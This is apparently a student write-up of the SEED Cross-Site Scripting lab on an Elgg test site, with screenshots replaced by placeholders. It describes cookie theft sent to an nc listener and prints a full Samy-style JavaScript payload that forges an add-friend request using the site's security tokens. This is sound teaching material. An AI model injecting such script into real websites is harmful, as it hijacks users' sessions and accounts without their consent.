 # Tasks for week \#9 and \#10


## Cross-Site Scripting (XSS) Attack Lab

- **Task 1**:
    - The purpose of this task is to embed a JavaScript program in an Elgg profile. In order to do this, we logged in as Bobby and injected the following Javascript program in the brief description field:  
    foto1

    - Then we logged in as Alice, visited Bobby's profile and the JavaScript code was executed.
    foto2

- **Task 2**:
    - The purpose of this task is similar to the previous one but the JavaScript code displays the user's cookie.
    foto3

    - Then we logged in as Alice, visited Bobby's profile and the JavaScript code was executed, showing Alice's cookie.
    foto4

- **Task 3**:
    - The purpose of this task is similar to the previous one but this time we want the cookie to be sent to the attacker. To achieve this, we injected the following JavaScript code that sents an HTTP GET request through an image's source field.
    foto5

    - The attacker uses the nc command to listen on port 5555 and receive the HTTP request with the Alice's cookie.
    foto6 

- **Task 4**:
    - The purpose of this task is to perform an similar attack to what Samy did to MySpace in 2005. Using Firefox's HTTP inspection tool, we get the following HTTP request when Bobby adds Samy as a friend:
    foto7

    - Using the same technique used in the previous tasks, we can inject the following JavaScript program in samy's profile:

    ``` 
        <script type="text/javascript">
            window.onload = function () {
            var Ajax=null;
            var ts="&elgg_ts="+elgg.security.token.elgg_ts;
            var token="&elgg_token="+elgg.security.token.elgg_token;
            //Construct the HTTP request to add Samy as a friend.
            var sendurl="http://www.seed-server.com/action/friends/add?friend=59" + ts + token;
            //Create and send Ajax request to add friend
            Ajax=new XMLHttpRequest();
            Ajax.open("GET", sendurl, true);
            Ajax.send();
            }
        </script> 
    ```

    - This code creates an HTTP request that adds the current user to Samy's friend list.

    Example:
    - Alice's friend list before visiting Samy's profile:
    foto8

    - Alice visits Samy's profile and the HTTP request is executed.
    foto9

    - Alice's friend list after visiting Samy's profile:
    foto10
